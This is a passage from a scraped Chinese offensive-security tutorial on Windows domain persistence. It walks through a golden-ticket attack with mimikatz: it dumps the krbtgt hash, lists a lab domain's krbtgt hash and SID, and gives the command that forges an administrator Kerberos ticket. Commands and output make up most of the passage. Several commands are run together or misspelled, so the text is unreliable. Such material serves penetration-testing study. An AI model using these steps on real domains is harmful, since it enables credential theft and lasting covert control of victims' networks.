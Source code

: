 ##  内网渗透｜域内持久化与Windows日志删除

[ 渗透Xiao白帽 ](javascript:void\(0\);)

**渗透Xiao白帽** ![]()

微信号 SuPejkj

功能介绍 积硅步以致千里，积怠惰以致深渊！

____

__

收录于话题

以下文章来源于HACK学习呀 ，作者11ccaab

![HACK学习呀](http://wx.qlogo.cn/mmhead/Q3auHgzwzM40Ey25ia7icKDtM0hyhYQeTnJdaC9NzZRHPkFM71EAD3Fw/0)
**HACK学习呀**

HACK学习，专注于互联网安全与黑客精神；渗透测试，社会工程学，Python黑客编程，资源分享，Web渗透培训，电脑技巧，渗透技巧等，为广大网络安全爱好者一个交流分享学习的平台！

# 0x01 金票

可以使用krbtgt的NTLM hash创建作为任何用户的有效TGT。要伪造黄金票据的前提是知道域的SID和krbtgt账户的hash或者AES-256值。

## 1.1 收集krbtgt密码信息

    
    
    privilege::debuglsadump::lsa /inject /name:krbtgt

![](https://gitee.com/fuli009/images/raw/master/public/20210816192534.png)

得到krbtgt的hash：

    
    
    c73caed3bc6f0a248e51d37b9a8675fa

域sid值：

    
    
    S-1-5-21-151877218-3666268517-4145415712

## 1.2 金票利用

使用mimikatz伪造kerberos票证

 **生成gold.kribi**

    
    
     mimikatz "kerberos::golden /domain:redteam.local /sid:S-1-5-21-151877218-3666268517-4145415712/krbtgt:c73caed3bc6f0a248e51d37b9a8675fa /user:administrator/ticket:gold.kirbi"

![](https://gitee.com/fuli009/images/raw/master/public/20210816192535.png)
